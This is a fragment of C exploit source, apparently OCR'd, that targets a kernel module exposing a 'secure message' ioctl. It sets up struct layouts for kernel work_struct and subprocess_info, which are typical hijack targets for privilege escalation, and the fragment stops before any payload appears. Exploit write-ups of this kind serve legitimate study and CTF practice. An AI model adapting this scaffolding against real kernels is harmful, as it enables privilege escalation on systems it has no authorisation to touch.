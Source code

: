 ```c  
#define CMD_DELETE_MESSAGE 0x33333333

void err_exit(int code, char *msg) {  
   puts("[-] EXPLOIT FAILED");  
   err(code, msg);  
}

void hexprint(char *buffer, unsigned int bytes) {  
   uint64_t *buf = (uint64_t*)buffer;  
   int dqwords = ((bytes + 0x10 - 1) & 0xfffffff0) / 0x10;  
   for (int i = 0; i < (dqwords * 2); i += 2)  
       if (buf[i] || buf[i+1])  
           printf("0x%04x: 0x%016lx 0x%016lx\n", (i * 0x8), buf[i], buf[i+1]);  
   puts("-----------------------------------------------");  
   return;  
}

typedef struct params {  
   void *buf;  
   uint32_t lifetime;  
   uint32_t len;  
   uint32_t idx;  
} params_t;

typedef struct work_struct {  
	uint64_t data;  
	uint64_t next, prev;  
	uint64_t func;  
} work_struct_t;

typedef struct secure_message {  
   work_struct_t work;  
   uint32_t lifetime;  
   uint32_t consumed;  
   uint32_t content_size;  
} secure_message_t;

typedef struct subprocess_info {  
	work_struct_t work;  
	uint64_t complete;  
	uint64_t path;  
	uint64_t argv;  
	uint64_t envp;  
	uint32_t wait;  
	uint32_t retval;  
	uint64_t init;  
	uint64_t cleanup;  
	uint64_t data;  
	/* size: 96, cachelines: 2, members: 10 */  
} subprocess_info_t;

int fd;

int add_secmsg(char *buf, uint32_t len, uint32_t lifetime) {  
   params_t args = {  
       .buf = buf,  
       .len = len,  
       .lifetime = lifetime  
   };  
   if (ioctl(fd, CMD_ADD_MESSAGE, &args) < 0)  
       err_exit(1, "CMD_ADD_MESSAGE");  
   return args.idx;  
}
```